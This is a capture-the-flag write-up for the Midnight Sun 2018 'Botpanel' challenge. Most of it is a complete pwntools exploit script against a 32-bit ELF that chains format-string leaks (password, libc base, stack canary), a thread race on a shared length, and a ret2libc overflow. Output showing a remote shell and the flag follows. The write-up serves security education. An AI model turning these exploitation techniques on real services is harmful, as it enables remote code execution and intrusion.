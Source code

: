 ```yaml
---
title: "Midnight Sun 2018 - Botpanel (Pwn)"
header:
  overlay_image: /assets/images/midnightsun2018/botpanel/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Redd Angelo on Unsplash"

tags:
  - midnightsun2018
  - writeup
  - web
---
```


Multiple vulnerabilties involving formats strings and unsafe threaded access to
shared variables in a 32 bit ELF binary allows an attacker to obtain remote code
execution on a remote system.

A format string vulnerability could be leveraged to leak sensitive information
such as a password, libc addresses, stack canaries, and enable full access to
the features. A second vulnerability leveraging shared variables between two
threads allows the attacker to manipulate the amount of data read and execute a
standard buffer overflow.

## Challenge Description

```
These cyber criminals are selling shells like hot cakes off thier new site. Pwn
their botpanel for us so we can stop them
```

#### Points

Points: 300

Solves: 19

Author: likvidera

## Solution

The final exploit script:

```python
from pwn import *
import time

context.log_level = "debug"

CALLBACK_IP = "192.241.156.223"
CALLBACK_PORT1 = 1337
CALLBACK_PORT2 = 1336

# Local Offsets
offset___libc_start_main_ret = 0x18637
offset_system = 0x0003ada0
offset_dup2 = 0x000d6310
offset_read = 0x000d5b00
offset_write = 0x000d5b70
offset_str_bin_sh = 0x15ba0b
offset_puts = 0x0005fca0
offset_exit = 0x0002e9d0
offset_read = 0x000d5b00

# Remote offsets
offset___libc_start_main_ret = 0x18637
offset_system = 0x0003a940
offset_dup2 = 0x000d4b50
offset_read = 0x000d4350
offset_write = 0x000d43c0
offset_str_bin_sh = 0x15902b
offset_puts = 0x0005f140
offset_exit = 0x0002e7b0
offset_read = 0x000d4350

# Password at %7$s
# Modify Trial at %6$n
# libc Leak at %43$x
# Canary Leak at %15$x

def main():
    #p = process(["./botpanel_e0117db42051bbbe6a9c5db571c45588", "0"])
    p = remote("52.30.206.11", 31337)

    payload_leak_password = "%7$s.AAA"
    p.sendline(payload_leak_password)
    p.recvuntil("Your attempt was: ")
    password = p.recvuntil(".AAA")[:-4]
    log.info("Password: '%s'." % password)

    payload_modify_trial = "%6$n.AAA"
    p.sendline(payload_modify_trial)
    p.recvuntil(".AAA")
    log.info("Upgraded to registered.")

    payload_leak_libc = "%43$x.AAA"
    p.sendline(payload_leak_libc)
    p.recvuntil("Your attempt was: ")
    libc_leak = int(p.recvuntil(".AAA")[:-4], 16)
    libc = libc_leak - offset___libc_start_main_ret
    system_addr = libc + offset_system
    binsh_addr = libc + offset_str_bin_sh
    exit_addr = libc + offset_exit
    log.info("Libc Base at 0x%x." % libc)
    log.info("system@Libc at 0x%x." % system_addr)
    log.info("'/bin/sh'@libc at 0x%x" % binsh_addr)
    log.info("exit@libc at 0x%x" % binsh_addr)

    payload_leak_canary = "%15$x.AAA"
    p.sendline(payload_leak_canary)
    p.recvuntil("Your attempt was: ")
    canary = int(p.recvuntil(".AAA")[:-4], 16)
    log.info("Canary is %x" % canary)

    p.sendline(password)
    p.recvuntil(">")
    log.info("Logged in.")

    r1 = listen(CALLBACK_PORT1)
    r2 = listen(CALLBACK_PORT2)
    log.info("Callback listeners set up.")

    time.sleep(0.5)

    p.sendline("2")
    p.recvuntil("IP:")
    p.sendline(CALLBACK_IP)
    p.recvuntil("Port:")
    p.sendline(str(CALLBACK_PORT1))
    p.recvuntil(">")
    log.info("Triggered an invite to %s:%d." % (CALLBACK_IP, CALLBACK_PORT1))

    p.sendline("2")
    p.recvuntil("IP:")
    p.sendline(CALLBACK_IP)
    p.recvuntil("Port:")
    p.sendline(str(CALLBACK_PORT2))
    p.recvuntil(">")
    log.info("Triggered an invite to %s:%d." % (CALLBACK_IP, CALLBACK_PORT2))

    r1.sendline("3")
    r1.recvuntil("Feedback length:")
    r1.sendline("32")
    r1.recvuntil("Feedback:")
    r1.sendline("AAAA")
    r1.recvuntil("Edit feedback y/n?:")
    log.info("Triggered a legitimate send feedback from R1. Waiting for R2.")

    r2.sendline("3")
    r2.recvuntil("Feedback length:")
    r2.send("9999")
    #r2.sendline("4")  # Remote server dies if thread exits
    log.info("R2 has overwritten the shared length.")

    r1.sendline("y")
    r1.recvuntil("Feedback:")
    payload = "A"*52
    payload += p32(canary)
    payload += "B"*12
    payload += p32(system_addr)
    payload += p32(exit_addr)
    payload += p32(binsh_addr)
    r1.sendline(payload)
    #r1.sendline("4")
    log.info("Overflow in R1 triggered.")

    p.recvrepeat(0.5)
    p.sendline("4")
    context.log_level = "info"
    log.success("Enjoy your shell.")

    p.interactive()


if __name__ == "__main__":
    main()
```

Running it:

```shell
...
[*] Overflow in R1 triggered.
[DEBUG] Sent 0x2 bytes:
    '4\n'
[+] Enjoy your shell.
[*] Switching to interactive mode
$ ls -la
total 52
drwxr-xr-x 1 root ctf   4096 Apr  7 15:31 .
drwxr-xr-x 1 root root  4096 Apr  7 15:31 ..
-rwxr-x--- 1 root ctf  28812 Apr  7 15:27 chall
-r--r----- 1 root ctf     13 Apr  7 15:27 config
-r--r----- 1 root ctf     52 Apr  7 15:27 flag
-rwxr-x--- 1 root ctf     39 Apr  7 15:27 redir.sh
$ cat flag
midnight{d0nt_d0_th3_cr1m3_1f_y0u_c4nt_d0_th3_t1m3}
$
```

Flag: **midnight{d0nt\_d0\_th3\_cr1m3\_1f\_y0u_c4nt\_d0_th3\_t1m3}**

